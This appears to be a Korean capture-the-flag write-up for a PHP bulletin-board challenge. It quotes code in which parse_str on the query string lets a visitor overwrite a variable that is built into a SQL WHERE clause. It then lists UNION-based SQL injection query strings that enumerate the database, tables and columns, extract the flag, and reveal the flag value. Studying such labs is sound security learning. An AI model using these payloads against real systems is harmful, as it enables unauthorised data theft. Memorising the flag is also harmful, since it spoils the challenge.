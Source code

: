 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-41-26.png)

# **Write-Up**

게시판 같은 페이지이다.

![](images/2022-01-03-00-41-54.png)

소스를 까보면 where_clause라는 변수에 데이터를 입력할 수 있고, 이는 SQLi로 이어질 수 있다고 본다.

```php
... 생략 ...
$result = mysql_query("select * from board where {$where_clause} order by idx desc");
... 생략 ...
```

where_clause에 데이터를 넣기 위해서는 foreach문에서 query_parts라는 변수에 데이터가 존재할 경우, query_parts가 where_caluse로 대입된다. 하지만, col변수에 데이터가 있다면 query_parts에 데이터를 원하는대로 조작하기 힘들어보인다.

이때 col변수에 데이터가 없기 위해서는 preg_match의 패턴에 안걸리면 된다. 즉, 맨 처음 문자열이 subject, content, writer가 아닌 데이터가 들어가 있어야 한다.

```php
... 생략 ...
foreach($cols as $col) { 
    $col = preg_match('/^(subject|content|writer)$/isDU',$col) ? $col : ''; 
    if($col) { 
        $query_parts = $col . " like '%" . $keyword . "%'"; 
    } 

    if($query_parts) { 
        $where_clause .= $query_parts; 
        $where_clause .= ' '; 
        $where_clause .= $operator; 
        $where_clause .= ' '; 
        $query_parts = ''; 
    } 
} 

if(!$where_clause) { 
    $where_clause = "content like '%{$keyword}%'"; 
}
... 생략 ...
```

이제 cols 변수에 데이터가 어떻게 들어가는 지 보면, search_cols 변수에 "|" 을 기준으로 스플릿하여 배열형태로 저장된다.

```php
if(!isset($search_cols)) { 
    $search_cols = 'subject|content'; 
} 

$cols = explode('|',$search_cols); 
```

search_cols와 query_parts는 parse_str과 _SERVER['QUERY_STRING'] 변수를 통해 원하는 데이터를 넣을 수 있다.

이때, $_SERVER['QUERY_STRING']에 /session/isUD라는 문자열이 존재하면 exit으로 빠진다.

```php
if(preg_match('/session/isUD',$_SERVER['QUERY_STRING'])) {
    exit('not allowed');
}

parse_str($_SERVER['QUERY_STRING']); 
getOperator($operator); 
$keyword = addslashes($keyword);
$where_clause = ''; 
```

QUERY_STRING은 query string이란다.........

> [PHP $_SERVER](https://www.php.net/manual/en/reserved.variables.server.php)

query string이란, HTTP URL 구성 요소 중 searchpart에 해당하는 부분이다.

> [Query string](https://datatracker.ietf.org/doc/html/rfc1738#section-3.3)

다음으로, parse_str이란 함수가 나온다. parse_str은 인자로 받아들인 문자열 중 쿼리 구문일 때, 변수를 php변수로 활용할 수 있다는 것이다.

> [PHP parse_str](https://www.php.net/manual/en/function.parse-str.php)

```php
parse_str($_SERVER['QUERY_STRING']); 
```

이제 search_cols를 "|"로 분리하고, 분리된 문자열 중 subject, content, writer가 아닌 데이터여야 하고 query_parts라는 변수를 추가적으로 넘겨주어 parse_str함수에 의해서 변수화 시키고 해당 데이터를 where_clause에 넘겨 줄 수 있다.

우선 컬럼 수는 4개임을 알 수 있다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,3,4--

![](images/2022-01-03-00-44-41.png)

DB명을 확인한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,schema_name,4 from Information_schema.schemata--

![](images/2022-01-03-00-44-53.png)

테이블명을 확인한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,table_name,4 from Information_schema.tables where table_schema='dmbs335'--

![](images/2022-01-03-00-44-57.png)

컬럼 명을 확인한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,column_name,4 from Information_schema.columns where table_name='Th1s_1s_Flag_tbl'--

![](images/2022-01-03-00-45-01.png)

FLAG를 획득한다.

query string : search_cols=leejinwoo&keyword=&operator=or&query_parts=idx='' union select 1,2,f1ag,4 from Th1s_1s_Flag_tbl--

![](images/2022-01-03-00-45-07.png)

개인적으로 전의 문제들 중 BlindSQLi가 기술적으로 더 어려웠다.


# **FLAG**

**4185ecacbc0ef01ab0e8518ad666021b26065557**